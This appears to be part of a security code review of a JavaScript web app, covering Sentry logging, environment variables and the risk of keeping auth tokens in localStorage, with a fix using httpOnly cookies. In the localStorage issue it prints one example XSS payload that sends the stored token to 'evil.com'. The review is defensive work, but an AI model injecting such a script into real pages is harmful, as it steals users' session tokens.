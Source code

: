 **Priority:** MEDIUM 🟡

---

## 🛡️ 5. Security Review

### ✅ Good Security Practices

#### **5.1 Centralized Logging**
```javascript
// ✅ utils/logger.js with Sentry integration
import * as Sentry from "@sentry/react";

export function logError(message, error) {
    if (import.meta.env.PROD) {
        Sentry.captureException(error, { tags: { context: message } });
    }
}
```

#### **5.2 Environment Variables**
```javascript
// ✅ Proper env var usage
const API_KEY = import.meta.env.VITE_BASE44_API_KEY;
const SENTRY_DSN = import.meta.env.VITE_SENTRY_DSN;
```

### 🚨 Security Issues

#### **Issue #12: localStorage Security Concerns**
**Severity:** HIGH  
**OWASP Risk:** A03:2021 - Injection

**Problem:**
```javascript
// ❌ Storing authentication tokens in localStorage
localStorage.setItem('auth_token', token);
localStorage.setItem('user_email', email);

// ❌ Vulnerable to XSS attacks
// If an attacker injects JavaScript, they can steal tokens:
// <script>fetch('evil.com?token=' + localStorage.getItem('auth_token'))</script>
```

**Fix:**
```javascript
// ✅ Use httpOnly cookies for authentication (backend required)
// Server sets: Set-Cookie: token=xyz; HttpOnly; Secure; SameSite=Strict

// ✅ Or use session storage for less sensitive data
sessionStorage.setItem('user_preference', value);

// ✅ Never store sensitive data in localStorage/sessionStorage
```
